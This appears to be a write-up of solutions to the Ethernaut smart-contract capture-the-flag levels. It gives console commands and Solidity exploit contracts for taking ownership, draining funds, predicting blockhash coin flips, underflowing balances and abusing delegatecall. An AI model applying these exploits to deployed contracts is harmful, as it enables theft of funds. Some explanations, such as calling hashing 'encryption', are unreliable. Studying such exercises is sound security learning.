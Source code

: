 # Ethernaut - Cryptography
Solutions to https://ethernaut.zeppelin.solutions

# Fallback
<code>
await contract.owner()
await contract.getContribution()
await contract.abi
await contract.contribute({value: web3.toWei(0.0001, 'ether')}) //to satisfy require
await contract.sendTransaction({value: web3.toWei(0.001, 'ether')}); //Fallback function
await contract.withdraw() //Take all money
</code>

We call the contribute to send some funds to the function. This validates the require function and the value to the sender’s contributions array.
After we call the fallback function by sending a transaction value higher than 0. Since both conditions on require pass, then ownership of the contract is reassigned. This allows the withdraw function to transfer all the funds to the owner.

# Fallout
<code>
await contract.owner()
await contract.abi
await contract.Fal1out()
await contract.owner()
</code>

The fallout function is not a constructor due to the typo in the function name. This allows anyone to call this function and take ownership of the contract.

#CoinFlip
<code>
pragma solidity ^0.4.18;

contract CoinFlip {
    function flip(bool) public returns (bool){ }
}

contract CoinFlipExploit {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip cf = CoinFlip(0xcf9584c0e873b0d0f21a67b37f0a9300a9eea152);

  constructor() public {
  }

  function exploitFlip() public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    cf.flip(side);
       
    return true;
  }
}
</code>

We use the above CoinFlipExploit contract to pre find the side. This is done on the same blockhash on this contract and on the CoinFlip contract, so the side value is always	the same in one transaction. The blockhash value does not change until the transaction is completed. This is then done 10 times repeatedly to satisfy this.

#Telephone
<code>
pragma solidity ^0.4.18;

contract Telephone {
    function changeOwner(address _owner) public { }
}

contract TelephoneExploit {
  Telephone t = Telephone(0x6c8e692dc45e65b50bd454b89f6febc569fa0e8e);

  constructor() public {
  }

  function exploit() public returns (bool) {
    t.changeOwner(0xf1a55256baac0eed4781b1750e80df10c17ffa70);
    return true;
  }
}
</code>

We use the following above contract to take ownership of the Telephone contract.

# Token
<code>
await contract.transfer(0xA3e987f45492E2a12a21E45A37c012a6e5E3B01C, 30)
await contract.balanceOf(player)
</code>

The transfer function demonstrates overflow and underflow situations. Since balances is uint we hit an underflow with “balances[msg.sender] -= _value” where it modifies the value to a very large number.

# Delegation
<code>
web3.eth.sendTransaction({from:player, to:contract.address, data:web3.sha3("pwn()").slice(0,10)}, function(error, hash){});
or 
web3.sha3("pwn()").slice(0,10) and send the transaction using metamask
</code>

First we need to sha3 encrypted the pwn() function. This is because we need to call the delegation function function by passing the 4 bytes of the sha3 encrypted function to take take ownership of Delegate and Delegation. The delegatecall overrides the owner storage variable with the value of the Delegate storage variable.

# Force
We have to call the selfdestruct() function to destroy the contract.

